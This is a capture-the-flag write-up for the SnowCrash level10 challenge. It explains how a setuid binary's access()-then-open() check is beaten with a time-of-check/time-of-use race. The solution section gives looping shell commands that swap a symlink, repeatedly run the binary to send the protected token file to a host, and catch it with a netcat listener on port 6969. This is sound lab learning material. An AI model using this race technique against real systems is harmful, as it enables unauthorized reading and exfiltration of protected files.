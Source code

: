 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's try: 
```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's do a symlink on token to see if it failed because of `token` in the file name:

```bash
level10@SnowCrash:~$ ln -s /home/user/level10/token /tmp/final
level10@SnowCrash:~$ ./level10 /tmp/final localhost
You don't have access to /tmp/final
```
`Level10` seems to check a user's rights, instead of a `strstr`on the name of file.</br>
Let's analyze a bit `level10`:

```bash
level10@SnowCrash:~$ strings level10
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```

`level10` does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

`level10` seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do we listen to a port?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html

Theorical steps:
- Do a symlink again and again (in a loop)
- launch `level10` in a loop
- Hope that level10 will accept our file with access
- Then the symlink will occure
- Then level10 will open our modified file and write it on port 6969
- listen to the port to see what is happening and maybe catch the token

# Solution

- On a first terminal connected with ssh let's create the file that is going to be the symlink (`readlink -f token` to know the true path of token file), note that we need to suppress and create a new file each time or the symlink will apply on `tmp/final` and will not pass the `access()` check again.
```bash
while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done
```

- On a second ssh terminal let's execute level10 in a loop: 
```bash 
while true; do (./level10 /tmp/final [SnowCrash_VM_IP_address]); done
```

- On a third terminal, we can listen to the port 6969 with the netcat command: 
```bash
while true; do nc -l 6969 ;done
```
